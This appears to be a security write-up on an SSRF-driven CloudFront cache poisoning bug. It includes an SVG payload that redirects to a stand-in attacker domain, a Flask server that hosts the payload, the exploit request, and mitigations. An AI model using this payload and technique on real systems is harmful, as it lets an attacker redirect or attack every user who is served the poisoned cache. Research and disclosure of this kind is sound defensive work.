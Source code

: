 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF‑induced Cache Poisoning Logic Bug

![Flow Diagram](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)

---

## 1. Bug Mechanics

1. **SSRF**: The attacker supplies the URL of an SVG/XML payload (e.g., `poc.xml`) to the proxy endpoint.  
2. **Fetch & Cache**: The server fetches the payload and responds with `Content-Type: image/svg+xml`, causing CloudFront to **automatically cache** the response.  
3. **Logic Bug**: Once cached, all subsequent requests return the old payload from the CDN — **the attacker’s payload propagates** to all users.

![SSRF Fetch & Cache](/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---

## 2. Comparison with Standard Cache Poisoning

| Standard Cache Poisoning            | SSRF‑Logic Bug Variant           |
|-------------------------------------|----------------------------------|
| Client sends payload directly       | Payload via SSRF intermediary    |
| CDN caches server's direct response | CDN caches SSRF endpoint's response |
| Controlled via headers (Host/Vary)  | Bug in the flow “Fetch → Cache → Serve” |

---

## 3. Proof of Concept

### 3.1 SVG/XML Payload (`poc.xml`)

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://your-attacker-domain.com/" />
    </body>
  </foreignObject>
</svg>
```

### 3.2 Python Flask Demo

```python
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5505, debug=False)
```

![Flask Demo](/posts/image-post/cache-poisoning-via-fetching-data/6.png)

### 3.3 CloudFront Result

- Request to the SSRF endpoint:
  ```http
  GET /media?u=http://VPS:5505/poc.xml HTTP/2
  Host: vuln.example.com
  ```
- Response headers include:
  ```
  X-Cache: Hit from cloudfront
  Age: 5
  ```
  → This proves the payload was cached.

![CloudFront Hit](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

---

## 4. Impact

- The attacker’s payload is “frozen” in the CDN, **all users** receive the malicious content without needing to trigger SSRF again.  
- Enables **mass attacks**: redirect victims, XSS, malicious file downloads…

---

## 5. Mitigation

1. **Whitelist** domains/URLs that the server can fetch.  
2. **Validate** and sanitize the `Content-Type` of the response before returning to the CDN.  
3. Add `Cache-Control: no-store` or `Vary: Origin` headers on the SSRF endpoint.  
4. Implement **rate limiting** and restrict the scope of fetchable URLs.
